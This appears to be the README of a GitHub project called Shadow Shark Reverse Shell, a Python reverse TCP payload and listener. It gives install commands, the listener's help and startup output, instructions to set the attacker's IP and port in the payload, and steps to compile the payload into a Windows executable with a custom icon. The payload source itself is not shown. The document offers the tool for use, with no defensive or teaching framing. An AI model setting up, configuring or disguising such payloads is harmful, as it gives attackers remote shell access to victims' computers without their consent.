 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
```
### Arch
```
$ sudo pacman -S python git
$ git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
```

## Usage
### ShadowShark.py
```
$ python3 ShadowShark.py --help
                                                     ``
                                               ``-+yhh-
                                            `:ohNMMMy.                  `.-`
                                        `-ohNMMMMMM:                `.+hNy-
                     ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
              `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
          `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
        `oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
         :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
          `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
          osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
          sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
           ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
               ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
                     ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
                               ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
                                             `mMMMMMMM``````````````.sNMMh
                                              -mMMMMMM.               .smMy`
                                               .yMMMMMh`                `:ys.
                                                 :yNMMMh.
                                                   .odNMm:
                                                     `-/sh:

usage: ShadowSharkListener.py [-h] --lh LHOST --lp LPORT --encryption
                              ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  --lh LHOST, --lhost LHOST
                        Your IP address.
  --lp LPORT, --lport LPORT
                        The port to listen for connections on.
  --encryption ENCRYPTION, -e ENCRYPTION
                        The encryption used for sent and recieved data.
$ python3 ShadowSharkListener.py --lhost 0.0.0.0 --lport 8080 --encryption hex
                                                     ``
                                               ``-+yhh-
                                            `:ohNMMMy.                  `.-`
                                        `-ohNMMMMMM:                `.+hNy-
                     ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
              `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
          `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
        `oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
         :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
          `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
          osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
          sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
           ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
               ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
                     ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
                               ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
                                             `mMMMMMMM``````````````.sNMMh
                                              -mMMMMMM.               .smMy`
                                               .yMMMMMh`                `:ys.
                                                 :yNMMMh.
                                                   .odNMm:
                                                     `-/sh:

[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### Compile.py
This compilation script can only be run on a windows machine or by using wine. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your windows machine or wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
